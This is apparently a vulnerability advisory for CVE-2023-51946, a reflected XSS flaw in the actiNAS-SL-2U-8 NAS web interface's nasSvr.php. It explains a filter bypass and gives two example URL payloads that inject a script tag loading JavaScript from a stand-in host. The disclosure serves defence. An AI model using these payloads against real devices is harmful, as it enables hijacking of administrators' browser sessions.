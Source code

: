 # CVE-2023-51946

## Description

Multiple reflected cross-site scripting (XSS) vulnerabilities in nasSvr.php in actidata actiNAS-SL-2U-8 3.2.03-SP1 allow remote attackers to inject arbitrary web script or HTML.

## Affected systems

The web application version 3.2.03-SP1 from actiNAS Plus SL 2U-8 RDX.

Product link: https://www.actidata.com/index.php/de-de/actinas-plus-sl-2u-8-rdx

## Author

Eduard Agavriloae

## Details

The web application through the endpoint /nasSvr.php is prone to reflected XSS from two query parameters: `func` and `op`. In both parameters XSS payloads can be injected that will be rendered on the client inside a message similar to the next ones depending on what parameter was used: 

- `Option <payload> not match in Account Manager!`
- `func:<payload> not match in nasSvr!`

If the payload has string delimiters such as `'` or `"` and whitespaces between the string delimiters, then the web application will modify the payload by adding the string delimiters before and after the whitespaces, affecting the payload's execution.
However, this can be easily bypassed by directly injecting a `script` HTML tag with an arbitrary source, essentially allowing you to execute without restrictions JavaScript code. Alternatively, you can just use payloads without whitespaces between string delimiters.

Example payloads:
- `/nasSvr.php?func=accountMgr&op=%3Cscript%20src=https://your-web-server.com/payload.js%3E%3C/script%3E`
- `/nasSvr.php?func=%3Cscript%20src=https://your-web-server.com/payload.js%3E%3C/script%3E`

## Other versions

My feeling is that other versions are affected as well, but I didn't found other instances of this product in order to validate.
